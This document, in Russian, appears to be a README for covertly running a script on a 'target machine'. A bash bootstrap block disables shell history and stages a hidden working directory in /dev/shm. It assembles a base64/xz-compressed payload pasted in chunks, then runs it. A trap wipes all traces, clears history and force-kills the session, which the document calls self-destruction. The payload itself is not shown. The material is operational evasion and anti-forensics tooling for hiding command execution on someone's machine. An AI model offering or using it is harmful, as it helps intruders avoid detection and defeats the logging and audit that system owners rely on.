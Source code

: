 # Инструкция по запуску на целевой машине

## Этап 1: Подготовка среды (выполняется **один раз**)

Скопируйте **ВЕСЬ** блок кода ниже и вставьте его в терминал целевой машины одним действием, затем нажмите Enter.

```bash
# --- НАЧАЛО БЛОКА ДЛЯ ЕДИНОРАЗОВОГО КОПИРОВАНИЯ ---

set -e
# --- Управление историей команд ---
_OLD_HISTCONTROL=${HISTCONTROL:-}
_OLD_HISTFILE=${HISTFILE:-}
export HISTCONTROL=ignoreboth
unset HISTFILE

# --- Создание временного окружения ---
_GUIDO_SESSION_DIR=$(mktemp -d --tmpdir=/dev/shm guido_bootstrap.XXXXXX 2>/dev/null || mktemp -d /tmp/guido_bootstrap.XXXXXX)
_GUIDO_ASSEMBLY_FILE="${_GUIDO_SESSION_DIR}/payload.b64"
touch "$_GUIDO_ASSEMBLY_FILE"

# --- Функция полной очистки ---
_guido_cleanup() {
  echo -e "\n\n[ОЧИСТКА] Произвожу полную очистку следов..."
  rm -rf "$_GUIDO_SESSION_DIR"
  unset _GUIDO_SESSION_DIR _GUIDO_ASSEMBLY_FILE
  export HISTCONTROL="$_OLD_HISTCONTROL"
  export HISTFILE="$_OLD_HISTFILE"
  unset _OLD_HISTCONTROL _OLD_HISTFILE
  unset -f guido_run _guido_cleanup
  history -c
  echo "[ОЧИСТКА] Все следы удалены. Принудительно завершаю сессию."
  kill -9 $$
}

# --- Установка "ловушки" (trap) ---
trap _guido_cleanup EXIT INT TERM

# --- Функция для запуска и активации очистки ---
# Распаковывает архив и запускает guido.sh из него
guido_run() {
    echo "[ЗАПУСК] Запускаю полезную нагрузку..."
    local EXEC_DIR
    EXEC_DIR=$(mktemp -d --tmpdir=/dev/shm guido_exec.XXXXXX 2>/dev/null || mktemp -d /tmp/guido_exec.XXXXXX)
    
    base64 -d "$_GUIDO_ASSEMBLY_FILE" | xz -d | tar -xf - -C "$EXEC_DIR"
    
    touch "${EXEC_DIR}/.guido_payload_marker"

    if [ -f "${EXEC_DIR}/guido.sh" ]; then
        bash "${EXEC_DIR}/guido.sh" "$@"
    else
        echo "[CRITICAL ERROR] Основной файл 'guido.sh' не найден после распаковки!"
    fi
    
    rm -rf "$EXEC_DIR"
}
set +e

clear
echo "=================================================================="
echo "Среда подготовлена. Функция 'guido_run' создана."
echo "Теперь используйте готовые блоки из ЭТАПА 2 для добавления частей."
echo "=================================================================="
# --- КОНЕЦ БЛОКА ДЛЯ ЕДИНОРАЗОВОГО КОПИРОВАНИЯ ---
```

## Этап 2: Передача частей

Для каждой части скопируйте соответствующий блок кода, замените плейсхолдер `{{...}}` на содержимое файла-части и выполните в терминале.

**<<< Для Части 1 >>>**
```bash
cat <<'END_OF_GUIDO' >> "$_GUIDO_ASSEMBLY_FILE"
{{PASTE_PART_1_CONTENT_HERE}}
END_OF_GUIDO
```

**<<< Для Части 2 >>>**
```bash
cat <<'END_OF_GUIDO' >> "$_GUIDO_ASSEMBLY_FILE"
{{PASTE_PART_2_CONTENT_HERE}}
END_OF_GUIDO
```

*(Если есть еще части, просто скопируйте шаблон выше и измените плейсхолдер, например, на `{{PASTE_PART_3_CONTENT_HERE}}`)*

## Этап 3: Запуск и самоуничтожение

После того как **ВСЕ** части были переданы, выполните команду `guido_run`.

**Вариант А: Запуск без аргументов**
```bash
 guido_run
```

**Вариант Б: Запуск с передачей аргументов в ваш скрипт** (например, `--sneaky --pretty`)
```bash
 guido_run --sneaky --pretty
```